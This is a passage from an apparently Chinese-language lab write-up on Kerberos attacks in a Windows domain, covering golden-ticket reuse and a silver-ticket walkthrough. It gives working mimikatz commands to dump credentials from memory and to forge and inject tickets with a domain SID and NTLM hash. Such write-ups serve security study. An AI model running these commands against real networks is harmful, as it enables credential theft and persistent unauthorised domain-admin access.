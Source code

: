 ```shell
kerberos::ptt g
```

![截图](ab17bef90e8363b97096e3c64ac84c5f.png)

成功！

后期继续渗透：

```cmd
net use \\owa2010cn-god
```

> 该攻击⽅式其实是⼀种后⻔的形式，属于第⼆次进⾏攻击的⽅法。
> 第⼀次拿到域管权限之后，需要将`krbtgt NTLM hash`进⾏保存，当第⼆次再来进⾏域渗透攻击时，我们就可使⽤`krbtgt`的`NTLM hash`制作⻩⾦票据，从⽽再次获得域管权限。
>{: .prompt-tip}

## 0x04 基于服务TGT-白银票据

白银票据（SILVER TICKET）是利用域的服务账户进行伪造的ST，在Kerberos认证的第三步，Client带着ST和Authenticator3向Server上的某个服务进行请求，Server接收到Client的请求之后，通过自己的Master Key 解密ST，从而获得 Session Key。所以只需要知道Server用户的Hash就可以伪造出一个ST，且不会经过KDC，但是伪造的门票只对部分服务起作用（不需要交互KDC，需要知道Server的NTLM Hash）。

> 利用条件与过程：
>
> 1、已经拿下域管理员，获取到DC hash；
> 2、利用DC的hash制作白银票据工具，进行攻击。

#### 利用

1、获取域名：god.org ；

2、域`SID`值：`S-1-5-21-1218902331-2157346161-1782232778`

```cmd
whoami /user
```

3、域DC账户`NTLM-HASH`：`d364965b49a20cd698d8cfb3eccacd00`  ==> 一定要选择服务器的名字和他的HASH

mimikatz:

```shell
privilege::debug
sekurlsa::logonpasswords
```

![截图](0f3eb5f1ce7defe4ec1b77d6190ee4c9.png)

4、制作白银票据：

```shell
kerberos::golden /domain:god.org /sid:S-1-5-21-1218902331-2157346161-1782232778 /target:owa2010cn-god /service:ldap /rc4:ccef208c6485269c20db2cad21734fe7 /user:aaaa /ptt
```

5、连接：

```shell
klist purge # 清楚票据
```

> 这里可能是这个靶场环境不行，所以白银票据一直不成功！
